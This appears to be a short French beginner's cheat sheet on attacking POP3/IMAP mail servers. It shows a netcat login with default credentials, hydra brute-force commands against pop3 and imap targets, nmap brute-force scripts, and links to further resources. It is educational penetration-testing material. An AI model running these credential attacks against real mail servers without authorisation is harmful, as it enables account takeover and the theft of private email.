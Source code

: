 # Exploitation POP3/IMAP

## Objectif
Exploiter des faiblesses de configuration ou des mots de passe faibles pour accéder à des boîtes mail ou exfiltrer des messages.

---

## Explications vulgarisées
- POP3/IMAP sont des protocoles de messagerie souvent mal sécurisés (mots de passe faibles, accès non chiffré).
- L'exploitation consiste à accéder à des boîtes mail, à lire ou exfiltrer des messages.

---

## Commandes et étapes essentielles

### 1. Connexion avec des credentials par défaut (POP3)
```bash
nc target.com 110
USER test
PASS test
```
- **Astuce débutant** : Tester des credentials faibles ou par défaut.

### 2. Bruteforce de mots de passe
```bash
hydra -L users.txt -P passwords.txt pop3://target.com
hydra -L users.txt -P passwords.txt imap://target.com
```
- **hydra** : Outil de bruteforce pour tester des combinaisons utilisateurs/mots de passe.

### 3. Exploitation automatisée avec Nmap
```bash
nmap --script pop3-brute,imap-brute -p 110,143 target.com
```
- **pop3-brute/imap-brute** : Scripts Nmap pour tester des combinaisons utilisateurs/mots de passe courants.

---

## Conseils pour débutants
- Toujours commencer par la détection de version et la bannière.
- Tester des credentials faibles ou par défaut avant d'essayer des listes longues.
- Utiliser Nmap pour automatiser la détection de comptes valides.
- Lire la documentation de chaque outil pour découvrir des options avancées.

---

## Pour aller plus loin
- [PayloadsAllTheThings - POP3/IMAP Exploitation](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/POP3%20IMAP%20Methodology)
- [Nmap POP3 NSE Scripts](https://nmap.org/nsedoc/categories/pop3.html)
- [Nmap IMAP NSE Scripts](https://nmap.org/nsedoc/categories/imap.html) 